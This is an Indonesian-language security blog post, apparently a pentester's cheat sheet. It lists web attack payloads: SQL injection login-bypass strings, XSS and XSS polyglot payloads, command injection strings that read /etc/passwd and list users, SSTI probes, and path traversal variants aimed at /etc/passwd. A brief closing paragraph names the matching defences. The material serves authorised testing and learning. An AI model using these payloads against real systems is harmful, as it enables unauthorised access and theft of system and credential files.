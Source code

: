 ```yaml
---
title: SQLi Authentication Bypass, XSS, XSS Polyglots, Command Injection, SSTI, Path Traversal
excerpt: SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.
date: 2025-03-31 01:37:00
tags: [1337rokudenashi]
categories:
  - [Security Researcher]
index_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/yublueflower.jpg
banner_img: https://raw.githubusercontent.com/1337rokudenashi/1337rokudenashi.github.io/main/1337yublueflower.jpg
---
```


SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.

**SQLi Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**XSS**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**SSTI**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Untuk SQLi Auth Bypass, gunakan prepared statements dan validasi input. Untuk XSS dan XSS Polyglots, lakukan output encoding dan sanitasi. Untuk Command Injection, batasi eksekusi dan validasi input. Untuk SSTI, hindari evaluasi input langsung. Untuk Path Traversal, batasi akses dan normalisasi path.
